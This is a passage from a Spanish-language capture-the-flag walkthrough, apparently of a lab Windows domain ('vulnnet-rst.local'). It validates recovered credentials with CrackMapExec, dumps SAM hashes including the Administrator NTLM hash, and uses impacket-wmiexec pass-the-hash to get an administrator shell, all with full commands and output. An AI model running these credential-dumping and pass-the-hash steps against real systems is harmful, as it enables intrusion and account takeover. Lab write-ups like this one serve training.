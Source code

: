```bash
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

### CME (Pwn3d!)

Compruebo si las credenciales de este usuario que sacamos del script es correcto (Esto lo podemos ver con el signo de + sino fuera valido daría un –):

```bash
crackmapexec smb 10.10.45.157 -u "a-whitehat" -p "bNdKVkjv3RR9ht"
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
```

En este punto podriamos con [impacket/psexec.py)](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) establecernos una shell ya que contamos con los permisos para hacerlo (Se que tengo permisos por el (Pwn3d!) que me dice cme, esto me aparece en la pantalla cuando el usuario es un administrador local) pero la idea es convertirnos en administrador del controlador de dominio entonces para esto extraemos la [Security Account Manager](https://en.wikipedia.org/wiki/Security_Account_Manager) del equipo ya que somos administrador local:

```bash
crackmapexec smb 10.10.45.157 -u "a-whitehat" -p "bNdKVkjv3RR9ht" --sam
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [+] Dumping SAM hashes
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ERROR:root:SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
SMB         10.10.45.157    445    WIN-2BO8M1OE1M1  [+] Added 3 SAM hashes to the database
```

### Wmiexec
Tenemos la SAM del equipo la idea seria hacer passthehash al administrador (Esto sucede mayormente cuando el administrador del dominio se logguea en una maquina con sus credenciales), para hacer esto utilizamos la herramienta de [impacket wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
[Pass the Hash](https://dmcxblue.gitbook.io/red-team-notes/lateral-movement/pass-the-hash)

```bash
impacket-wmiexec vulnnet-rst.local/administrator@10.10.45.157 -hashes aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vulnnet-rst\administrator
```

### Plus

[Mitigación de ataques Pass-the-Hash](https://www.elladodelmal.com/2014/07/mitagacion-de-ataques-pass-hash-y-pass.html)

